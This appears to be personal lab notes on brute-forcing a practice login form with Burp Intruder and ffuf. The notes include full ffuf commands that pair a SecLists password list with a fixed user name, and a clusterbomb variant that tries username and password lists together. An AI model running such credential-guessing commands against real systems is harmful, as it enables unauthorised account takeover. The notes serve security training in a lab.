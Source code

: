 ## Lab 1 : Brute Force Authentication

`sudo apt install seclists`

- use jeremy as a user name
- use password payload ----> /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt

![Image](/img/labs-authentication01.png)

#### Brute Force With Burp Intruder

![Image](/img/2023-11-05_09-00.png)

![Image](/img/2023-11-05_09-04.png)

![Image](/img/2023-11-05_09-17.png)

#### Brute Force With Ffuf

- save request and edit request attack point with FUZZ
- super fast !!!! no rate limiting

![Image](/img/2023-11-05_09-19.png)

`ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814`

![Image](/img/2023-11-05_09-28.png)

---

## JUST ONE NOTE : How Can We Use Clusterbomb in Ffuf

- Edit request for attack points

`ffuf -request req2.txt -request-proto http -mode clusterbomb -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER -w pass.txt:FUZZPASS`

